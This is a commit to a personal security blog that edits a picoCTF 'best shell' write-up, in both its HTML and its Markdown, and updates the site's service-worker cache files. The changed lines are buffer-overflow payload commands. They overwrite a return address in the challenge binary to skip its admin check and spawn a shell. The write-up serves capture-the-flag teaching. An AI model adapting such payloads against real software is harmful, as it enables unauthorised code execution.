

fix typo in post

diff --git a/_site/posts/picoctf-best-shell-challenge/index.html b/_site/posts/picoctf-best-shell-challenge/index.html
@@ -11,7 +11,7 @@
 </pre></table></code></div></div><p><img src="/assets/img/posts/picoctf-best-shell-challenge/9.png" alt="best shell debugging using gdb" /></p><p>As you can see, we can successfully control eip register by sending the crafted payload above.</p><p>By controlling eip register we can push an address of our choice to change the flow of the running binary and then inject our shellcode, but we notice that the vulnerable binary has a function which spawns a shell, the function is called shell_handler as follows: <img src="/assets/img/posts/picoctf-best-shell-challenge/10.png" alt="shell handler function" /></p><p>In order to be able to spawn a shell, we first need to be an admin (as shown in admin boolean flag)</p><p>By inspecting the other functions we notice a function which makes us admin by changing the value of admin variable to true, the function is called auth_admin_handler: <img src="/assets/img/posts/picoctf-best-shell-challenge/11.png" alt="auth admin handler function" /></p><p>We notice the strcmp C function which compares between 2 given strings, admin_password is the password stored in password.txt file we previously created, so if we pass it to this function it will make us admin!</p><p>The problem here is that we need to guess the password in order to spawn the shell, instead we will bypass this condition, so we run gdb ./best_shell again and then type the following command to store the payload in a file:</p><div class="language-console highlighter-rouge"><div class="highlight"><code><table class="rouge-table"><tbody><tr><td class="rouge-gutter gl"><pre class="lineno">1
 </pre><td class="rouge-code"><pre><span class="gp">$</span><span class="w"> </span>python <span class="nt">-c</span> <span class="s2">"print('rename lol ' + 'A'*32 + 'B' * 4 + '</span><span class="se">\n</span><span class="s2">' + 'A'*32 + 'B' * 4 + ' test</span><span class="se">\n</span><span class="s2">')"</span> <span class="o">&gt;</span> payload
 </pre></table></code></div></div><p>Then we run the binary and send the payload file content as input using the command run &lt; payload<br /> And finally we use the command disas shell_handler to disassemble shell_handler function <img src="/assets/img/posts/picoctf-best-shell-challenge/12.png" alt="best shell exploitation" /></p><p>We notice je instruction which checks admin flag, we choose the address of the instruction right after it (call ..getegid), the address of that instruction is 0x5655654b.</p><p>We replace the B’s with that address, our crafted payload looks as follows now:</p><div class="language-console highlighter-rouge"><div class="highlight"><code><table class="rouge-table"><tbody><tr><td class="rouge-gutter gl"><pre class="lineno">1
-</pre><td class="rouge-code"><pre><span class="gp">$</span><span class="w"> </span>python <span class="nt">-c</span> <span class="s2">"print('rename lol ' + 'A'*32 + '</span><span class="se">\x</span><span class="s2">4b</span><span class="se">\x</span><span class="s2">65</span><span class="se">\x</span><span class="s2">55</span><span class="se">\x</span><span class="s2">56' * 4 + '</span><span class="se">\n</span><span class="s2">' + 'A'*32 + '</span><span class="se">\x</span><span class="s2">4b</span><span class="se">\x</span><span class="s2">65</span><span class="se">\x</span><span class="s2">55</span><span class="se">\x</span><span class="s2">56' * 4 + ' test</span><span class="se">\n</span><span class="s2">')"</span>
+</pre><td class="rouge-code"><pre><span class="gp">$</span><span class="w"> </span>python <span class="nt">-c</span> <span class="s2">"print('rename lol ' + 'A'*32 + '</span><span class="se">\x</span><span class="s2">4b</span><span class="se">\x</span><span class="s2">65</span><span class="se">\x</span><span class="s2">55</span><span class="se">\x</span><span class="s2">56' + '</span><span class="se">\n</span><span class="s2">' + 'A'*32 + '</span><span class="se">\x</span><span class="s2">4b</span><span class="se">\x</span><span class="s2">65</span><span class="se">\x</span><span class="s2">55</span><span class="se">\x</span><span class="s2">56' + ' test</span><span class="se">\n</span><span class="s2">')"</span>
 </pre></table></code></div></div><p>We then run the following command to exploit the vulnerable binary:</p><div class="language-console highlighter-rouge"><div class="highlight"><code><table class="rouge-table"><tbody><tr><td class="rouge-gutter gl"><pre class="lineno">1
-</pre><td class="rouge-code"><pre><span class="gp">$</span><span class="w"> </span><span class="o">(</span>python <span class="nt">-c</span> <span class="s2">"print('rename lol ' + 'A'*32 + '</span><span class="se">\x</span><span class="s2">4b</span><span class="se">\x</span><span class="s2">65</span><span class="se">\x</span><span class="s2">55</span><span class="se">\x</span><span class="s2">56' * 4 + '</span><span class="se">\n</span><span class="s2">' + 'A'*32 + '</span><span class="se">\x</span><span class="s2">4b</span><span class="se">\x</span><span class="s2">65</span><span class="se">\x</span><span class="s2">55</span><span class="se">\x</span><span class="s2">56' * 4 + ' test</span><span class="se">\n</span><span class="s2">')"</span><span class="p">;</span><span class="nb">cat</span><span class="o">)</span> | ./best_shell
+</pre><td class="rouge-code"><pre><span class="gp">$</span><span class="w"> </span><span class="o">(</span>python <span class="nt">-c</span> <span class="s2">"print('rename lol ' + 'A'*32 + '</span><span class="se">\x</span><span class="s2">4b</span><span class="se">\x</span><span class="s2">65</span><span class="se">\x</span><span class="s2">55</span><span class="se">\x</span><span class="s2">56' + '</span><span class="se">\n</span><span class="s2">' + 'A'*32 + '</span><span class="se">\x</span><span class="s2">4b</span><span class="se">\x</span><span class="s2">65</span><span class="se">\x</span><span class="s2">55</span><span class="se">\x</span><span class="s2">56' + ' test</span><span class="se">\n</span><span class="s2">')"</span><span class="p">;</span><span class="nb">cat</span><span class="o">)</span> | ./best_shell
 </pre></table></code></div></div><p><img src="/assets/img/posts/picoctf-best-shell-challenge/13.png" alt="shell spawn" /></p><p>Excellent, we successfully spawned a shell.</p></div><div class="post-tail-wrapper text-muted"><div class="post-tags"> <i class="fa fa-tags fa-fw mr-1"></i> <a href="/tags/ctf/" class="post-tag no-text-decoration" >ctf</a> <a href="/tags/challenges/" class="post-tag no-text-decoration" >challenges</a> <a href="/tags/binary-exploitation/" class="post-tag no-text-decoration" >binary exploitation</a></div></div></div></div><!-- The Pannel on right side (Desktop views) v2.0 https://github.com/cotes2020/jekyll-theme-chirpy © 2017-2019 Cotes Chung MIT License --><div id="panel-wrapper" class="col-xl-3 pl-2 text-muted topbar-down"><div class="access"><div id="access-lastmod" class="post"><h3 data-toc-skip>Recent Update</h3><ul class="post-content pl-0 pb-1 ml-1 mt-2"><li><a href="/posts/picoctf-best-shell-challenge/">PicoCTF Best Shell Challenge</a></li></ul></div><div id="access-tags"><h3 data-toc-skip>Trending Tags</h3><div class="d-flex flex-wrap mt-3 mb-1 mr-3"> <a class="post-tag" href="/tags/ctf/">ctf</a> <a class="post-tag" href="/tags/challenges/">challenges</a> <a class="post-tag" href="/tags/binary-exploitation/">binary exploitation</a></div></div></div><div id="toc-wrapper" class="pl-0 pr-4 mb-5"><h3 data-toc-skip class="pl-3 pt-2 mb-3">Contents</h3><nav id="toc" data-toggle="toc"></nav></div></div></div><div class="row"><div id="post-extend-wrapper" class="col-12 col-lg-11 col-xl-8"><div class="pl-1 pr-1 pl-sm-2 pr-sm-2 pl-md-4 pr-md-4"> <!-- Navigation buttons at the bottom of the post. v2.1 https://github.com/cotes2020/jekyll-theme-chirpy © 2020 Cotes Chung MIT License --><div class="post-navigation d-flex justify-content-between"> <span class="btn btn-outline-primary disabled"><p>-</p></span> <span class="btn btn-outline-primary disabled"><p>-</p></span></div><!-- The Disqus lazy loading. Powered by: https://osvaldas.info/lazy-loading-disqus-comments v2.0 https://github.com/cotes2020/jekyll-theme-chirpy © 2019 Cotes Chung MIT License --><div id="disqus" class="pt-2 pb-4"><p class="font-italic text-muted small">Comments powered by <a href="https://disqus.com/">Disqus</a>.</p></div><script src="/assets/lib/jquery.disqusloader.min.js"></script> <script> var options = { scriptUrl: '//4sploit.disqus.com/embed.js', disqusConfig: function() { this.page.url = 'https://4sploit.com/posts/picoctf-best-shell-challenge/'; this.page.identifier = '/posts/picoctf-best-shell-challenge/'; } }; $.disqusLoader('#disqus', options); </script> <!-- The related posts of current post. Placed in the bottom of every single post. v2.0 https://github.com/cotes2020/jekyll-theme-chirpy © 2019 Cotes Chung Published under the MIT License --></div></div></div><script type="text/javascript" src="https://cdn.jsdelivr.net/npm/lozad/dist/lozad.min.js"></script> <script type="text/javascript"> const el = document.querySelectorAll('#post-wrapper img'); const observer = lozad(el); observer.observe(); </script> <!-- The Footer v2.0 https://github.com/cotes2020/jekyll-theme-chirpy © 2017-2019 Cotes Chung MIT License --><footer class="d-flex w-100 justify-content-center"><div class="d-flex justify-content-between align-items-center"><div class="footer-left"><p class="mb-0"> © 2020 <a href="https://github.com/4sploit">Mahmod Mahajna</a>.</p></div></div></footer></div><!-- The Search results v2.0 https://github.com/cotes2020/jekyll-theme-chirpy © 2017-2019 Cotes Chung MIT License --><div id="search-result-wrapper" class="d-flex justify-content-center unloaded"><div class="col-12 col-xl-11 post-content"><div id="search-hints"><h4 class="text-muted mb-4">Trending Tags</h4><a class="post-tag" href="/tags/ctf/">ctf</a> <a class="post-tag" href="/tags/challenges/">challenges</a> <a class="post-tag" href="/tags/binary-exploitation/">binary exploitation</a></div><div id="search-results" class="d-flex flex-wrap justify-content-center text-muted mt-3"></div></div></div></div><div id="mask"></div><a id="back-to-top" href="#" class="btn btn-lg btn-box-shadow" role="button"> <i class="fas fa-angle-up"></i> </a> <!-- The GA snippet v2.0 https://github.com/cotes2020/jekyll-theme-chirpy © 2017-2019 Cotes Chung MIT License --> <script> (function(i,s,o,g,r,a,m){i['GoogleAnalyticsObject']=r;i[r]=i[r]||function(){ (i[r].q=i[r].q||[]).push(arguments)},i[r].l=1*new Date();a=s.createElement(o), m=s.getElementsByTagName(o)[0];a.async=1;a.src=g;m.parentNode.insertBefore(a,m) })(window,document,'script','https://www.google-analytics.com/analytics.js','ga'); ga('create', '', 'auto'); ga('send', 'pageview'); </script> <!-- Jekyll Simple Search loader v2.0 https://github.com/cotes2020/jekyll-theme-chirpy © 2017-2019 Cotes Chung MIT License --> <script src="https://cdn.jsdelivr.net/npm/simple-jekyll-search@1.7.3/dest/simple-jekyll-search.min.js" integrity="sha256-qcLR00zq6pJk4je3MLgAri8Nn+ZumUlXgTKR2H/xCY0=" crossorigin="anonymous"></script> <script> SimpleJekyllSearch({ searchInput: document.getElementById('search-input'), resultsContainer: document.getElementById('search-results'), json: '/assets/data/search.json', searchResultTemplate: '<div class="pl-1 pr-1 pl-sm-2 pr-sm-2 pl-lg-4 pr-lg-4 pl-xl-0 pr-xl-0"> <a href="https://4sploit.com{url}">{title}</a><div class="post-meta d-flex flex-column flex-sm-row text-muted mt-1 mb-1"><div class="mr-sm-4"><i class="far fa-folder fa-fw"></i>{categories}</div><div><i class="fa fa-tag fa-fw"></i>{tags}</div></div><p>{snippet}</p></div>', noResultsText: '<p class="mt-5">Oops! No result founds.</p>' }); </script>

diff --git a/_site/assets/data/cache-list.js b/_site/assets/data/cache-list.js
@@ -1,1 +1,1 @@
-const include = [ /*--- CSS ---*/ '/assets/css/home.css', '/assets/css/categories.css', '/assets/css/tags.css', '/assets/css/archives.css', '/assets/css/page.css', '/assets/css/post.css', '/assets/css/category-tag.css', '/assets/lib/bootstrap-toc-1.0.1/bootstrap-toc.min.css', /*--- Javascripts ---*/ '/assets/js/dist/commons.js', '/assets/js/dist/timeago.min.js', '/assets/js/dist/category-collapse.min.js', '/assets/js/dist/toc.min.js', '/assets/lib/bootstrap-toc-1.0.1/bootstrap-toc.min.js', /*--- HTML ---*/ /* Tabs */ '/', '/tabs/tags/', '/tabs/archives/', '/tabs/about/', /* The posts of first Home page and recent update list */ '/posts/picoctf-best-shell-challenge/', /* Trending tags */ '/tags/ctf/', '/tags/challenges/', '/tags/binary-exploitation/', /*--- Icons ---*/'/assets/img/favicons/favicon.ico', '/assets/img/favicons/apple-icon.png', '/assets/img/favicons/apple-icon-precomposed.png', '/assets/img/favicons/apple-icon-57x57.png', '/assets/img/favicons/apple-icon-60x60.png', '/assets/img/favicons/apple-icon-72x72.png', '/assets/img/favicons/apple-icon-76x76.png', '/assets/img/favicons/apple-icon-114x114.png', '/assets/img/favicons/apple-icon-120x120.png', '/assets/img/favicons/apple-icon-144x144.png', '/assets/img/favicons/apple-icon-152x152.png', '/assets/img/favicons/apple-icon-180x180.png', '/assets/img/favicons/android-icon-192x192.png', '/assets/img/favicons/favicon-32x32.png', '/assets/img/favicons/favicon-96x96.png', '/assets/img/favicons/favicon-16x16.png', '/assets/img/favicons/ms-icon-144x144.png', '/assets/img/favicons/manifest.json', '/assets/img/favicons/browserconfig.xml', /*--- Others ---*/ '/assets/data/search.json', '/404.html', '/app.js', '/sw.js' ]; const exclude = [ '/assets/data/pv-data.json', '/img.shields.io/' ];
+const include = [ /*--- CSS ---*/ '/assets/css/home.css', '/assets/css/categories.css', '/assets/css/tags.css', '/assets/css/archives.css', '/assets/css/page.css', '/assets/css/post.css', '/assets/css/category-tag.css', '/assets/lib/bootstrap-toc-1.0.1/bootstrap-toc.min.css', /*--- Javascripts ---*/ '/assets/js/dist/commons.js', '/assets/js/dist/timeago.min.js', '/assets/js/dist/category-collapse.min.js', '/assets/js/dist/toc.min.js', '/assets/lib/bootstrap-toc-1.0.1/bootstrap-toc.min.js', /*--- HTML ---*/ /* Tabs */ '/', '/tabs/tags/', '/tabs/archives/', '/tabs/about/', /* The posts of first Home page and recent update list */ '/posts/picoctf-best-shell-challenge/', /* Trending tags */ '/tags/ctf/', '/tags/challenges/', '/tags/binary-exploitation/', /*--- Icons ---*/'/assets/img/favicons/favicon.ico', '/assets/img/favicons/android-icon-192x192.png', '/assets/img/favicons/favicon-32x32.png', '/assets/img/favicons/favicon-16x16.png', '/assets/img/favicons/manifest.json', '/assets/img/favicons/browserconfig.xml', /*--- Others ---*/ '/assets/data/search.json', '/404.html', '/app.js', '/sw.js' ]; const exclude = [ '/assets/data/pv-data.json', '/img.shields.io/' ];

diff --git a/_site/sw.js b/_site/sw.js
@@ -1,1 +1,1 @@
-self.importScripts('/assets/data/cache-list.js'); var cacheName = 'mahmod-20200517.1919'; function isExcluded(url) { for (const rule of exclude) { if (url.indexOf(rule) != -1) { return true; } } return false; } self.addEventListener('install', (e) => { self.skipWaiting(); e.waitUntil( caches.open(cacheName).then((cache) => { return cache.addAll(include); }) ); }); self.addEventListener('fetch', (e) => { e.respondWith( caches.match(e.request).then((r) => { /* console.log('[Service Worker] Fetching resource: ' + e.request.url); */ return r || fetch(e.request).then((response) => { return caches.open(cacheName).then((cache) => { if (!isExcluded(e.request.url)) { /* console.log('[Service Worker] Caching new resource: ' + e.request.url); */ cache.put(e.request, response.clone()); } return response; }); }); }) ); }); self.addEventListener('activate', (e) => { e.waitUntil( caches.keys().then((keyList) => { return Promise.all(keyList.map((key) => { if(key !== cacheName) { return caches.delete(key); } })); }) ); });
+self.importScripts('/assets/data/cache-list.js'); var cacheName = 'mahmod-20200518.1724'; function isExcluded(url) { for (const rule of exclude) { if (url.indexOf(rule) != -1) { return true; } } return false; } self.addEventListener('install', (e) => { self.skipWaiting(); e.waitUntil( caches.open(cacheName).then((cache) => { return cache.addAll(include); }) ); }); self.addEventListener('fetch', (e) => { e.respondWith( caches.match(e.request).then((r) => { /* console.log('[Service Worker] Fetching resource: ' + e.request.url); */ return r || fetch(e.request).then((response) => { return caches.open(cacheName).then((cache) => { if (!isExcluded(e.request.url)) { /* console.log('[Service Worker] Caching new resource: ' + e.request.url); */ cache.put(e.request, response.clone()); } return response; }); }); }) ); }); self.addEventListener('activate', (e) => { e.waitUntil( caches.keys().then((keyList) => { return Promise.all(keyList.map((key) => { if(key !== cacheName) { return caches.delete(key); } })); }) ); });

diff --git a/_site/app.js b/_site/app.js
@@ -1,1 +1,1 @@
-/* Registering Service Worker */ /*if('serviceWorker' in navigator) { navigator.serviceWorker.register('/sw.js'); };*/
+/* Registering Service Worker */ if ('serviceWorker' in navigator) { navigator.serviceWorker.register('/sw.js'); };

diff --git a/_posts/2020-05-17-picoctf-best-shell-challenge.md b/_posts/2020-05-17-picoctf-best-shell-challenge.md
@@ -90,11 +90,11 @@ the address of that instruction is 0x5655654b.
 
 We replace the B's with that address, our crafted payload looks as follows now:
 ```console
-$ python -c "print('rename lol ' + 'A'*32 + '\x4b\x65\x55\x56' * 4 + '\n' + 'A'*32 + '\x4b\x65\x55\x56' * 4 + ' test\n')"
+$ python -c "print('rename lol ' + 'A'*32 + '\x4b\x65\x55\x56' + '\n' + 'A'*32 + '\x4b\x65\x55\x56' + ' test\n')"
 ```
 We then run the following command to exploit the vulnerable binary:
 ```console
-$ (python -c "print('rename lol ' + 'A'*32 + '\x4b\x65\x55\x56' * 4 + '\n' + 'A'*32 + '\x4b\x65\x55\x56' * 4 + ' test\n')";cat) | ./best_shell
+$ (python -c "print('rename lol ' + 'A'*32 + '\x4b\x65\x55\x56' + '\n' + 'A'*32 + '\x4b\x65\x55\x56' + ' test\n')";cat) | ./best_shell
 ```
 ![shell spawn]({{ "/assets/img/posts/picoctf-best-shell-challenge/13.png" | relative_url }})
 
